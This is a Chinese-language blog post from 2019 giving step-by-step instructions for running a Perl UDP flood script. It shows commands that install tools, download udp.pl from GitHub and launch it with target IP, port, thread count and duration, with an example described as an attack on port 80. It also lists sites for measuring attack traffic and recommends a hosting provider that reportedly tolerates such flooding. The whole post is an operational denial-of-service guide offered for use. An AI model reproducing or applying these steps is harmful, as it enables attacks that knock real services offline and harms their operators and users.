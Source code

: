 # [ALP本机发包脚本使用方法说明](https://www.beggar.tk/9.html)

> 作者: [Laowang](https://www.beggar.tk/author/1/)
>    
> 时间: 2019-10-12
>    
> 分类: [默认分类](https://www.beggar.tk/category/default/)

本机发包脚本使用方法说明.

登陆VPS，执行命令

CentOS:

```bash
yum update -y
yum install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

Debian & Ubuntu:

```bash
apt-get update -y
apt-get install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

执行命令：`perl udp.pl IP port thread time(s).`

如要攻击1.2.3.4，80端口攻击100秒

`perl udp.pl 1.2.3.4 80 200 100`

这里的200是线程，根据VPS网络性能自己决定.

监控网络状况可以输入 `dstat` 查看.

要查看打出多少流量，可以访问下面几个测量的墙.

## 测量网站

[vedbex]( https://www.vedbex.com/tools/dstat )

[ddosfilter]( http://ddosfilter.net/layer4.php )

[cyber-hub](https://cyber-hub.net/layer4.php)

[toolsmania](https://www.toolsmania.net/dstat_layer4.php)

[dstat.live](https://dstat.live/)

[dstat.cc](https://dstat.cc/l4.php)

什么？不知道用那里的机器发包？

scaleway online旗下的 只要你别一直打 基本没事.

[scaleway官网](https://www.scaleway.com/)

标签: none
